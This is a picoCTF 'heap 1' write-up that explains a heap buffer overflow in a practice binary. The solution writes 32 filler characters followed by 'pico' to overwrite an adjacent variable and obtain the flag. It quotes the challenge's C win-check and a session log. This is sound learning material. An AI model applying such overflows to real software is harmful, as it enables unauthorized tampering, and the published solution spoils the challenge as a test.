

# heap 1
Challenge Description:
> Can you control your overflow?

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Hint 1</summary>

> How can you tell where safe_var starts?
</details>

## Procedure
This is basically the same challenge as `heap 0` except you can't write whatever you want past the 32nd character of your input. The challenge demands you overwrite `safe_var` with `pico`, and you can find this out from both the gdb disassembly as well as the source code:

> 

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

So, 32 characters of whatever followed by `pico` gets us the flag.

```
Enter your choice: 2
Data for buffer: hammyhammyhammyhammyhammyhammyyypico

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5d098bfb76b0  ->   hammyhammyhammyhammyhammyhammyyypico
+-------------+----------------+
[*]   0x5d098bfb76d0  ->   pico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
hammy{u win - hammy}
```

## Solution
1. Input something that is 32 characters long, followed by `pico`. Example: `hammyhammyhammyhammyhammyhammyyypico`
2. Print the flag.
